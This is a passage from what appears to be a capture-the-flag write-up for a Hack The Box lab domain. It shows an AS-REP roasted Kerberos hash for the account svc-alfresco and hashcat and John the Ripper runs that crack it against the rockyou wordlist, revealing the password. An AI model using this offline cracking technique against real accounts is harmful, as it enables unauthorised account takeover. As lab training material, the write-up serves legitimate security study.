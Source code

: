 ```bash
* Not-Iterated
* Single-Hash
* Single-Salt

$krb5asrep$23$svc-alfresco@HTB.LOCAL:49b0a9c32cff239b7a9800c26e5bf3c6$f5f8010937c39d33d846645b5e45ccdbf67cc1914d025d7ee7aa42c08d0d9fe8193ed37dff07a337feb52fe2123e014959bc12113ae875a111ee88b0703275cd1648c24f876c90ce9b0d3563864d472446c2a85bdeefa689ebaa51dd751e4216cf307ba2cba0bd97a8ba8ffd390fc0954f57d8ee72a87f0076f2ee7e85099d3ccc2ce58ed80a7c61fe1c51502c4b02ed60b9ad335f0322c7c29e5799dd9b853e52dd5ccd4a2ead081d0a9c786655cded312cb7968020d99d7e781db3a30ce015f1dfa4043df7610326d5e8f504ab36227473dc98a404b4aa15846db32c553c11a1d6e523b47d:s3rvice
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:49b0a9c32cff23...23b47d
Time.Started.....: Sat May 11 21:34:08 2024 (9 secs)
Time.Estimated...: Sat May 11 21:34:17 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/home/oste/Desktop/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   448.3 kH/s (0.65ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4085760/14344385 (28.48%)
Rejected.........: 0/4085760 (0.00%)
Restore.Point....: 4085248/14344385 (28.48%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: s402gercd -> s3r3ndipit
Hardware.Mon.#1..: Util: 84%

Started: Sat May 11 21:33:13 2024
Stopped: Sat May 11 21:34:18 2024
```


### John


```bash
➜  john -w=~/Desktop/rockyou.txt TGT.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)     
1g 0:00:00:07 DONE (2024-05-14 22:27) 0.1398g/s 571434p/s 571434c/s 571434C/s s428237..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

----
